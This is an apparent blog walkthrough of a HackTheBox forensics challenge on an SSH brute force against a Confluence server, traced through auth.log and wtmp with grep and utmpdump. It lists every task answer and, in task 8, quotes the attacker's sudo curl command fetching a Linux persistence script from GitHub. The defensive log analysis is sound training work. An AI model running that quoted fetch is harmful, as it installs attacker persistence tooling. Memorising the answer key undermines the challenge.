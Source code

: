 ```yaml
---
title: "Sherlock - Brutus - English"
summary: "Sherlock from HackTheBox about unauthorized login attempts on a Confluence server. The auth.log and wtmp files are provided for investigation."
date: "Jan 15 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- English
---
```




<SherlockBeginningTable  lang={LANG_EN} 
  data={[
    { content: `In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs.
    We'll explore a scenario where a Confluence server was brute-forced via its SSH service. 
    After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. 
    Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, 
    including aspects of privilege escalation, persistence, and even some visibility into command execution.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/blog/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_EN} 
    task_number="1" 
    task_content="Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?" 
    hint_content="Searching for keywords associated with brute force attempts may help in identifying potential attacks." 
    answer="65.2.161.68"/>

- We can search for the keywords `Invalid user` to find out the attacker's IP with any of these commands:

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- The logs have this format:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- There are many failed login attempts from the IP 65.2.161.68 with user accounts suggesting elevated privileges (`admin`, `server_adm`, `svc_account` and `root`). That's the IP we are looking for.

---

<SherlockTask lang={LANG_EN} 
    task_number="2" 
    task_content="The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?" 
    hint_content="Look for keywords indicating successful login attempts to identify the compromised account." 
    answer="root"/>

- Taking a look to the `auth.log` file, we can see that access was gained with the user `root` from the IP 65.2.161.68, which is the attacker's IP as mentioned earlier.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- We can filter with the keywords `Accepted password`, though:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>


---

<SherlockTask lang={LANG_EN} 
    task_number="3" 
    task_content="Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?" 
    hint_content="It's important to note that the first successful login by the attacker was the result of an automated brute force attempt, and the session was 
    closed within the same second it was established. After obtaining the working credentials, the attacker manually logged in, and we need to identify that login. 
    Use the wtmp artifact to view the login time of the working session and correlate that with auth.log." 
    answer="2024-03-06 06:32:45"/>

- Since in `auth.log` the timestamp has this format `Month Day HH:mm:SS` and the requested format is `YYYY-MM-DD HH:mm:SS`, we need to search in the `wtmp` file.
- With this command, we can see all logins in that file:

<CodeBlock code={"utmpdump wtmp"}/>
    
- But we can filter by the username with which the attacker gained access, which in this case is what we are interested in:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_3.png"/>

- We can see that in the last line, the login from the IP 65.2.161.68 has a similar timestamp format to `YYYY-MM-DD HH:mm:SS`. There is our answer.

---

<SherlockTask lang={LANG_EN} 
    task_number="4" 
    task_content="SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?" 
    hint_content="A session number is assigned immediately after the password is accepted." 
    answer="37"/>

- Considering the previous timestamp, we can search in `auth.log` around that time.
- We search for that hour and those minutes (we could also search for the user `root`, though):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_4.png"/>

- We see that one second before (06:32:44), the number 37 is assigned to the `root` user's session.

---

<SherlockTask lang={LANG_EN} 
    task_number="5" 
    task_content="The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?" 
    hint_content="Auth.log also tracks changes related to users and groups on the server. Look for keywords indicating user additions or privilege assignments." 
    answer="cyberjunkie"/>

- Reviewing the `auth.log` file, we realize that after gaining access, the attacker creates a new user with the name `cyberjunkie`, through `useradd` command, in order to maintain persistent access to the system (creating a backdoor):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>
     
---

<SherlockTask lang={LANG_EN} 
    task_number="6" 
    task_content="What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?" 
    hint_content="If you have found the answer to Question 5, consult the MITRE ATT&CK enterprise matrix to determine the sub-technique ID under the persistence tactic." 
    answer="T1136.001"/>

- To do this, we go to the URL https://attack.mitre.org and search in **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_EN} 
    task_number="7" 
    task_content="What time did the attacker's first SSH session end according to auth.log?"
    answer="2024-03-06 06:37:24"/>

- Knowing the SSH session number, we can filter by it as follows:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_7.png"/>

- The second line indicates the time when the session was closed, with the state `Removed session 37`.

---

<SherlockTask lang={LANG_EN} 
    task_number="8" 
    task_content="The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?" 
    hint_content="Although auth.log is not typically used to track command executions like auditd, commands executed with sudo are logged in auth.log since the system needs to authenticate the account's privileges to grant root level permissions for that command. Search for the keyword 'COMMAND' to find commands executed using sudo."
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- The system needs to authenticate the account to grant administrative permissions for commands executed with `sudo`, which would be recorded in `auth.log`, as the hint states. We can filter by:
    
<CodeBlock code={"cath auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_8.png"/>   

- One of the lines shows us the `curl` command that the attacker executed and the script URL that he downloaded.

---

<SherlockFinalContent lang={LANG_EN}/>

